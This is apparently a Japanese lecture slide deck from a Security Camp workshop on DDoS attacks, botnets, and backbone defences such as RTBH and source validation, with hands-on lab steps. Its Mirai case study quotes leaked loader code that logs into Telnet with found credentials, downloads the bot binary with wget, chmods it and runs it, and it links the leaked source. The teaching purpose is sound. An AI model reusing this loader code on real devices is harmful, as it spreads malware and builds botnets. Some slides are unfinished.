




# ITサービスを脅威から守る：DDoS攻撃とその防御について
## セキュリティ・キャンプ2026ミニ（北海道開催）

公立千歳科学技術大学　理工学部　電子光工学科<br>
高橋　楓

---
layout: section
---

# はじめに

---


# 自己紹介
- 所属: 公立千歳科学技術大学 理工学部（4年）
  - 新千歳空港からバスで7分✈
  - 電子光工学科⚡
- 好きな？技術
  - TypeScript / Unity（VFX Graph）/ Kubernetes / eBPF / Reversing
- Internet Week（NOC）/ FOSS4G Hokkaido, Local Developer Day（運営）
- 連絡先
  - [X](https://x.com/t6o_o6t) / [Cosense(Scrapbox)](https://scrapbox.io/t6o-o6t)

---

# セキュリティ・キャンプとのかかわり

B1 から毎年関わらせていただいています！💕

| 年度 | 学年 | 内容 | かかわり |
| --- | --- | --- | --- |
| 2023 | B1 | 全国大会 | **受講生**（Web セキュリティ） |
| | | ミニ北海道 | 受講生 |
| 2024 | B2 | ミニ石川 | チューター |
| 2025 | B3 | ミニ山梨 | **講師** |
| 2026 | B4 | コネクト | チューター（OS） |
| | | ミニ北海道 | 【今回】講師 | 

---
layout: section
---

# 演習の準備

---

# 機材の確認
皆さんの手元に、次のものがあることを確認してください。
- Raspberry Pi （以下「Pi」）
- 電源アダプタ
- LAN ケーブル
- USB-LAN アダプタ

---

# LAN ケーブルを接続する

LAN ケーブルの一端を、Raspberry Pi の LAN ポートに接続します。

- あなたの PC に LAN ポートがない場合
  - USB-LAN アダプタの USB 端子を、あなたの PC に接続します。
  - アダプタの LAN 端子には、手順1 の もう一端を接続します。
- あなたの PC に LAN ポートがある場合
  - LAN ケーブルのもう一端をあなたの PC に接続します。

---

# Pi に ssh 接続する①

Windows の Powershell や macOS の Terminal を開き、次のコマンドを実行します。

```sh
ssh mc26do.local
```

もし `ssh: Could not resolve hostname mc26do.local:` と表示されたら、1分ほど待って再度お試しください。

それでもエラーが出る場合は相談してください。

---

# Pi に ssh 接続する②

`(user@mc26do.local) Password:` と表示されたら、通信に成功しています。

パスワード `user` を入力して Enter キーを押してください。<br>
※ 入力中のパスワードは画面に表示されません。

次のように表示されたら、認証に成功しています。
```
Last login: Thu Nov 12 07:08:46 2026 from 192.168.100.228
➜  ~
```

---

# 機材の準備
1. Raspberry Pi の電源をコンセントに接続してください。
2. LAN ケーブルの一端を Raspberry Pi に接続してください。
3. LAN ケーブルのもう一端を、ご自身のパソコンに接続してください。


---
layout: section
---

# 講義の概要

---

# DoS （Denial of Service）攻撃

Web サービスやネットワーク帯域に異常な負荷を与え、正規のユーザーがサービスを利用できないようにするサイバー犯罪です。


### 例
- 大量のパケットを送り、サーバーが処理限界に達するようにする。
  - Reflection Attack (例: Smurf Attack, DNS amplification)
- サーバーの脆弱性を悪用して、サービスを停止させる。
  - SYN Flood: Linux カーネルの TCP 接続待ちキューを枯渇させる。
  - Ping of Death: 不正な ICMP パケットを送り、バッファオーバーフローを引き起こす。

---

# DDoS （Distributed DoS） 攻撃

複数のコンピュータを使用した DoS 攻撃を DDoS 攻撃と呼びます。

とくに、マルウェアに感染した複数のコンピュータ「Botnet」から大量のパケットを送る DDoS 攻撃が一般的です。



---

# Botnet の拡大と対策

Botnet は、インターネット上に公開されているデバイスの脆弱性を利用してマルウェアを感染させます。

セキュリティ研究者は、フロー情報やNetwork Telescope、マルウェア解析を通して、Botnet の特徴を分析します。

また、Botnet の拡大を抑えるため、セキュリティ研究者や法執行機関が連携し、「テイクダウン」という停止措置を行っています。

---

# DDoS as a Service

DDoS 攻撃の実施をサービスとして提供する「DDoS as a Service」というビジネスが存在します。<br>
テイクダウンを回避し安定的に供給することがマーケットでは重要です。

ユーザーは必ずしも営利目的ではなく、「オンラインゲームで有利になる」などの理由で攻撃を依頼するケースが多くみられます。




---

# DDoS 攻撃に対する防御

CDN（Content Delivery Network）や ISP（Internet Service Provider）など<br>
大規模トラフィックを扱う事業者は Scrubbing サービスを提供し、DDoS パケットを事前にフィルタします。

インターネット上のAS （Autonomous System）では、BGP を活用し<br>
標的へのパケットや、攻撃元からのパケットを効率的に遮断しています。



---

# 講義の流れ

1. Botnet について、以下のことを学びます。
   - Botmaster の視点: Botnet を構築し、 C&C サーバーから命令する流れ。
   - セキュリティ研究者の視点: Botnet の振る舞いを調べ、停止させる手法。
2. DDoS Scrubbing のネットワーク的な手法と DDoS 検知技術を学びます。
3. RTBH / BGP Flowspec を用いて、パケットを遮断する手法を学びます。

---
layout: section
---

# Botnet

---

# Botnet とは

Botnet は、マルウェアに感染したコンピュータ「Bot」の集まりです。

Botnet の管理者「Botmaster」は、パケットの一斉送信などの攻撃を<br>
Bot に命令します。

Internet Chat Relay（IRC）というメッセンジャー上で複数インスタンスが協調動作するプログラムが起源とされます（Eggdrop, 1993）。

---

# Botnet の悪用

Botnet はさまざまなサイバー犯罪に悪用されています。
- DDoS 攻撃
- スパムメール送信（例: Earthlink Spammer, 2000）
  - スパムメールを介してユーザの個人情報などを窃取しようとする。
- クリプトジャッキング（例: Smominru, 2017）
  - マルウェアに感染したコンピュータ上で仮想通貨の発掘計算を行う。

---

# Botnet の拡大

Botnet は、マルウェアを連鎖的に感染させ、指数関数的に拡大します。

- 能動的な拡大（例: Mirai, 2016）
  - 一度マルウェアに感染した Bot は、次の感染対象となるコンピュータを<br>自動的に探索します。
  - 発見したコンピュータには、マルウェアがダウンロードされます。
- 受動的な拡大（例: Mariposa, 2008）
  - USB メモリやドライブバイダウンロードなど、人の操作を起点に<br>マルウェアの感染が広がります。

---

# Botnet への命令

多くの Botnet では、Botmaster は「C&C（Command & Control）サーバ」を用意します。

C&C サーバは、Botnet 内の Bot に命令を一斉送信するための**司令塔**です。

単純なマルウェアには C&C サーバの IP アドレスやドメイン名が静的に<br>
エンコードされており、感染後に C&C サーバとの接続が確立されます。

---

# Botnet に対する解析

Botnet の活動は、以下のような方法で解析されます。

- 受動的なアプローチ
  - DNS クエリや ISP のフローログ（例: sflow）を解析する
  - マルウェア検体を静的解析する
- Botnet への潜入
  - サンドボックス環境でマルウェアを実行する
  - C&C 通信を模倣して命令などを傍受する

---

# Botnet のハイジャック

Botnet の制御をハイジャックできれば、Botnet の解析や解体に役立ちます。

- C&C サーバを押収（テイクダウン）する
  - 法執行機関（LEA）の協力が必要です。
- C&C サーバのドメイン名の DNS レコードを上書きする（**Sinkhole**）
  - Bot が C&C サーバに接続するためにドメイン名を使用している場合、<br>
    DNS レコードを上書きして解析用のサーバに通信を誘導できます。
  - ドメインレジストリとの協力が必要です。

---

# ハイジャックと解体の事例

- Torpig Botnet（2009）
  - 静的解析により、C&C サーバに使用予定のドメイン名を特定した。
  - 特定した未使用のドメイン名を確保し、**10日間ハイジャック**したが、<br>
    ハイジャックに気付いた Botmaster に対策され、制御を奪い返された。
- Waledec Botnet（2008）
  - C&C サーバのドメイン名を、「ex parte TRO」に基づき差し押さえた。<br>
    緊急性の高い臨時差止命令を秘密裏に執行できる米国の法制度である。
  - TODO

---
layout: section
---

# Case Study: Mirai Botnet

---

# Mirai の概要

本節では、脆弱なIoT 機器に感染を広げた「Mirai」Botnetを解説します。

---

# Mirai における感染先探索と感染の実行

Bot が感染可能なコンピュータを探索し、Loader が実際の感染を担当します。

- Bot
  - 脆弱なパスワードのIoT 機器をスキャンし、ブルートフォースします。<br>
    ログイン可能なパスワードを見つけたら、Loader に送信します。
- Loader （HTTP サーバー）
  - 受信したユーザ名とパスワードを使って、Telnet にログインします。
  - Telnet 接続で、`wget` などで Bot のバイナリをダウンロードさせます。

---

# Mirai のソースコード

[2016年にリークされたソースコード](https://github.com/jgamblin/Mirai-Source-Code)は、以下のファイルで構成されています。

- `mirai/`: Mirai の Core な処理。
  - `bot/`: Mirai に感染した Bot 上で実行される処理。
    - `scanner.c`: 感染可能なコンピュータをスキャンする処理。
    - `attack.c`: 攻撃の実行処理。
  - `cnc/`: C&C サーバーの実装。
- `loader/`: `scanner.c` で発見したコンピュータに Mirai を感染させる処理。

---

# Loader: Telnet にログインする

Telnet 接続が確立したら、事前に検出したユーザ名を入力します。

```c
consumed = connection_consume_login_prompt(conn); // 「>」などのユーザ名入力プロンプトを検出する
util_sockprintf(conn->fd, "%s", conn->info.user);
```

同様にパスワードも入力し、ログインが完了します。

```c
consumed = connection_consume_password_prompt(conn);
util_sockprintf(conn->fd, "%s", conn->info.pass);
```

以降は、Telnet 上で任意のコマンドを実行できます。

---

# Loader: バイナリファイルをダウンロードする

`wget` や TFTP を使って、Mirai のバイナリをダウンロードします。

また、ファイルのモードを`777`に変更します（=読み書き実行可）。

```c
util_sockprintf(
  conn->fd,                   // Telnet 接続の File Descriptor
  "/bin/busybox wget http://%s:%d/bins/%s.%s -O - > "FN_BINARY "; /bin/busybox chmod 777 " FN_BINARY "; " TOKEN_QUERY "\r\n",
  wrker->srv->wget_host_ip,   // HTTP リクエスト先の IP 
  wrker->srv->wget_host_port, // HTTP リクエスト先のポート
  "mirai",                    // ファイル名
  conn->info.arch             // 拡張子（arm, x86 など）
);
```

---

# Loader: バイナリファイルを実行する

ダウンロードしたバイナリを実行します。

```c
util_sockprintf(
  conn->fd,
  "./" FN_BINARY " %s.%s; " EXEC_QUERY "\r\n",
  id_tag,
  conn->info.arch
);
```

---

# 演習: Mirai Botnet の動作を観察する

Containerlab 上で Mirai Botnet の動作を観察しましょう。

まず、次のコマンドでネットワークをデプロイしてください。

```sh
sudo containerlab redeploy
```

---

# 演習: Mirai Botnet を乗っ取る

先ほどの観察で、Mirai Bot は C&C サーバに接続するときに、
ドメイン名`cnc.changeme.com`を使用することがわかりました。

---

# Botnet の巧妙化

Botnet の技術は、セキュリティ研究者や法執行機関の影響を逃れるために<br>
巧妙化しています。

- P2P を用いて命令を伝播させる（例: Storm）
  - 中央集権的な C&C サーバを置くと、テイクダウンのリスクが高いため
- C&C との通信の暗号化（例: Gorilla）
- DNS Fast Flux

---
layout: intro
---

# 小休憩（5分）

---
layout: section
---

# バックボーンネットワークにおける対策

---

# おさらい: バックボーンネットワーク

インターネットは、AS（Autonomous System）というネットワークが<br>
相互に接続してできています。

このような AS 間の大規模な回線などをバックボーンネットワークと呼びます。

AS 間で大まかな経路情報を交換するプロトコルが BGP です。<br>
AS 内で、AS 境界の BGP ルータどうしが行う BGP 通信は iBGP と呼ばれます。

>※ 不明点は事前講義資料をご確認ください。

---

# Reflection Attack における送信元 IP アドレス詐称

DNS Amplification などの Reflection Attack

---

# uRPF による送信元検証


ルーターが受信パケットをネクストホップに転送する際、パケットの送信元 IP アドレスがルーティングテーブルに存在するかを確認する仕組みです。

DDoS 

---

# BCP38 (RFC2827)

IP スプーフィングを用いた DDoS 攻撃に対する Ingress Filtering の運用手法を記した文書です。

uRPF

---

# RTBH (Remotely Triggered Blackhole)

### Blackhole Community に応じてネクストホップを上書きする

`r22`では、BGP Community `65002:1`が付加された受信経路の<br>
ネクストホップを`null0`（後述）に上書きすることにしましょう。

```sh[r22.conf]
route-map RM-BGP-IN permit 5
  match community 65002:1
  set ip next-hop null0
```

---

### `null0` インターフェースへの上書きの意味

`65002:1`が付加された受信経路のネクストホップを変更しました。

`r22`に届いたパケットは`r3`に転送されず`null0`にルーティングされます。



`null0`にルーティングされたパケットは破棄される規則があるので、<br>
`192.168.3.0/24`宛のパケットは`r22`によって**破棄される**はずです。

---

### ネクストホップを上書きした結果を確認する

1. `h1`から`h3`に<Link to="traceroute">mtr</Link>を実行しましょう。<br>
   最終ホップが`r22`であり、疎通しないことを確認してください。
2. `r22`の<Link to="routing-table">ルーティングテーブルを確認</Link>してください。

<v-click>

</v-click>


---
